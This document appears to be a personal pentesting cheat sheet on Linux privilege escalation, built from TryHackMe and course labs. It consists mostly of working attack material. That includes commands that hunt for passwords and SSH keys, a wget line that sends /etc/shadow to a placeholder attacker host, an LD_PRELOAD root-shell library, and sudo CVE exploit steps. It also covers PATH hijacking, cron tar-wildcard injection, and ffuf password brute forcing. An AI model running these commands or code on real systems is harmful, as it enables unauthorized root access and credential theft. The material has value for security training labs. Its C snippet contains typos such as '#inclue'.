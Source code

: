 **1. Basic CMDs**
**2. SUIDS, LD_PRELOAD, && CVE's**
**3. Other Escalation Techniques**
**4. Log4j**
**5. References**

---

###**1 Basic CMDs::**###
+ invoke-rc.d - All access to the init scripts by Debian packages' maintainer scripts should be done through invoke-rc.d
+ ip neigh - like arp -a 
  + check the communication between IP's and ports
+ grep --color=auto -rnw '/' -ie "PASSWORD(=)" --color=always 2>/dev/null (Very nice grep cmd)
+ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
+ cat .ovpn - sometimes has password info
+ sudo -l
+ ps aux - for ports
+ find / -name authorized_keys 2>/dev/null
+ find / -name id_rsa 2>/dev/null
+ find / -type f -perm -04000 ls 2>/dev/null
+ strace /dir/to/sicky/bit(X.so) 2>&1 | grep -i -E "open|access|no such file"

+ intended functionality:
+ sudo apache -f /etc/shadow
+ sudo wget --post-file=/etc/shadow <attacker-ip>:8081 #Send the shadow file to self
---

###**2. SUIDS, LD_PRELOAD, && CVE's**###

**CVE's && LD_PRELOAD::**
+ Privesc with LD_PRELOAD=
  + `sudo -l :: env_reset, env_keep+=LD_PRELOAD`
  + ***run malicious library before any other***
---
vim shell.c
```
#inclue<stdio.h>
#inclue<sys/types.h>
#inclue<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setguid(0);
    setuid(0);
    system("/bin/bash");
}
```
`$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
`$ sudo LD_PRELOAD=/path/to/file/shell.so apache2  #service from sudo -l` :: root@XYZ#

dirsearch - similar to gobuster/dirbuster 

brute_forcing with CMS made simple: see ![brute_force_cms_script](screenshots/CMS_made_simple_brute_force.png) && "fun_brute_force_script"

**CVE-2019-14287::**
`sudo -l :: hacker ALL=(ALL,!root) /bin/bash`
`# sudo -u#-1 /bin/bash`
# https://tryhackme.com/room/sudovulnsbypass
# Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502


**CVE-2019-18634::**
`cat /etc/sudoers :: Defaults env_rest,pwfeedback`
`# sudo -V :: 1.8.21p2 && file grammar V 46`
`./exploit #C program` See ![cve](screenshots/cve_2019_18634.png)
# https://tryhackme.com/room/sudovulnsbof
# Exploit CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

**CVE-2021-3156 Baron Samedit::**
```
Affects any unpatched sudo 1.8.2-1.8.31p2-1.9.0-1.9.5p1
This time the vulnerability is a heap buffer overflow, as opposed to the stack buffer (CVE-2019-18634)
The stack is a very regimented section of memory which stores various important aspects of a program. \
The heap, on the other hand, is reserved for dynamic allocation of memory, \
allowing for more flexibility in how values and constructs are created and accessed by a program.
```
See ![is_vuln?](screenshots/cve_2021315.png)
# https://github.com/blasty/CVE-2021-3156
# https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
```
make
./sudo-hax-me-a-sandwich
# See ![sudo_root_cve_20211316](screenshots/cve_2021315_make_run.png)
```

##**SUID - Shared Object Injection::**##
`find / -type f -perm -04000 -ls 2>/dev/null`
TODO:: Escalation via shared object injection

##**SUID escalation w/ Binary Symlinks via nginx::**##
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
https://academy.tcm-sec.com/courses/1154399/lectures/24800164
---

##**SUID escalation w/ env variables::**##
https://academy.tcm-sec.com/courses/1154399/lectures/24800170
```
strings /usr/local/bin/suid-env :: "etc etc... service apache2 start
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > tmp/service
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
###** 3. Other Escalation techniques::**###

Enumeration of domains && users::
wfuzz -c -f sub-fighter -w /subdomains-top1million-110000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 209
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.248.128 -fs 2395  #-fs filters out most common size -try various sizes based off results
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" | grep "Status; 200"
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.17.206/customers/login -fc 200

Good Telnet exploits: https://tryhackme.com/room/protocolsandservers2 

##**Escalation w/ capabilities::**##
```
getcap -r / 2>/dev/null :: /usr/bin/python2.6 = cap_setuid+ep #Permit effective || permit everything
usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash") :: whoami# root'
tar,openssl,perl,etc,etc
```
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
https://mn3m.info/posts/suid-vs-capabilities/
https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

##**Escalation w/ scheduled tasks cron/timers::**##
```
cat /etc/crontab #Anything with wildcard
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > /home/andrew/backup/shell.sh
chmod +x shell
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
# run ls /tmp && make sure /tmp/bash is available.
./tmp/bash -p :: whoami - root
```

`systemctl list-timers --all`


###**3. Log4j**###
**CVE-2021-44228 log4j::**
TODO:: 
# [](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
# [](https://log4shell.huntress.com/)
# [](https://www.youtube.com/watch?v=7qoPDq41xhQ)
# [](https://github.com/YfryTchsGD/Log4jAttackSurface)

** 4. References::**
```
[Lin_enum_tips](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[tools_&_checklists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[hacktricks_lin_privesc](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
[OWASP_lin_privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
[TCM_GITHUB](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
[TCM_THM](https://tryhackme.com/room/linuxprivescarena)
[sql-injection_CMSMS_exploit](https://www.exploit-db.com/exploits/46635)
[dirsearch](https://github.com/maurosoria/dirsearch)
```